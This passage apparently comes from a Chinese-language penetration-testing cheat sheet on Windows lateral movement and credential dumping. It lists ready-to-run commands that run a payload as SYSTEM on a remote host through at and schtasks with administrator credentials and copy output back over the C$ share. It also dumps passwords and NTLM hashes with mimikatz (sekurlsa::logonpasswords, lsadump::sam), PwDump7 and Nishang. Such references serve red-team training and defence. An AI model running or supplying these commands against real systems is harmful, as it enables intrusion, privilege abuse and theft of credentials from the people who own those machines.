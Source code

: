 ```
  2019/04/23  16:13             2,831 Crypto.ipynb

               2 个文件      1,469 字节
               3 个目录      1,976 可用字节

#tasklist命令
tasklist /$ 192.168.100.190 /U administrator /P 123456


#at计划任务
net time \\\\192.168.100.190
copy calc.bat \\\\192.168.100.190
at \\\\192.168.100.190 4.11PM C:\\calc.bat (无回显)
at \\\\192.168.100.190 4.11PM cmd.exe /c "ipconfig >C:/1.txt"
type \\\\192.168.100.190\\C$\\1.txt         (分步回显)
at \\\\192.168.100.190 7(任务计划的ID号) /delete (清除计划任务)


#schtasks计划任务
#在远程主机上创建一个：c:\\calc.bat 开机时以System权限启动的 test 任务
schtasks /create /s 192.168.100.190 /tn test /sc onstart /tr c:\\calc.bat /ru system /f

#执行 test 任务
schtasks /run /s 192.168.100.190 /i /tn "test"

#删除计划任务
schtasks /delete /s 192.168.100.190 /tn "test" /f

#schtasks会留存日志
C:\\Windows\\Tasks\\SchedLgU.txt


```

### 5.2 Windows 系统散列值获取

在 windows 操作系统中，Hash 的结构通常如下：

```
username:RID:LM-HASH:NT-HASH
#服务器版从windows server2003以后，认证方式均为NTLM Hash
#如果LM Hash被禁用了，工具抓到的LM Hash通常为：aad3b435b51404eeaad3b435b51404ee


```

单机密码抓取：

```
GetPassword\_x64.exe  #获得明文

PwDump7.exe #获得NTML Hash

#mimikatz本地读取
privilege::debug
token::elevate
lsadump::sam

mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"


#mimikatz离线读取lsass.dmp

#Nishang
Import-Module .\\Get-PassHashes.ps1
```
